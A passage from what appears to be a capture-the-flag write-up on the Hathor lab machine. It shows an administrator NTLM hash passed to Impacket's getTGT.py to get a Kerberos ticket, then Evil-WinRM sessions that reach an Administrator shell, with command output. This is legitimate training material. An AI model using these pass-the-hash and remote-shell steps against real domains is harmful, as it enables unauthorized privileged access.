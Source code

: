 ```

oxdf@hacky$ getTGT.py -hashes :b3ff8d7532eef396a5347ed33933030f windcorp.htb/administrator
Impacket v0.10.1.dev1+20220720.103933.3c6713e - Copyright 2022 SecureAuth Corporation

[*] Saving ticket in administrator.ccache

```

`klist` and other Kerberos tools will use the location `/tmp/krb5cc_1000` to store tickets by default, but the `KRB5CCNAME` environment variable can be used to identify a different file. For example, using this ticket just acquired:

```

oxdf@hacky$ KRB5CCNAME=./administrator.ccache klist
Ticket cache: FILE:./administrator.ccache
Default principal: administrator@WINDCORP.HTB

Valid starting       Expires              Service principal
11/11/2022 11:54:12  11/11/2022 21:54:12  krbtgt/WINDCORP.HTB@WINDCORP.HTB
        renew until 11/12/2022 11:54:11

```

### Shell

#### Evil-WinRM

Now I can connect over [Evil-WinRM](https://github.com/Hackplayers/evil-winrm) using just the hostname and the realm:

```

oxdf@hacky$ evil-winrm -i hathor.windcorp.htb -r WINDCORP.HTB

Evil-WinRM shell v3.4

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents>

```

Or to use the ticket generated by `getTGT.py`:

```

oxdf@hacky$ KRB5CCNAME=./administrator.ccache evil-winrm -i hathor.windcorp.htb -r WINDCORP.HTB

Evil-WinRM shell v3.4

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents>

```
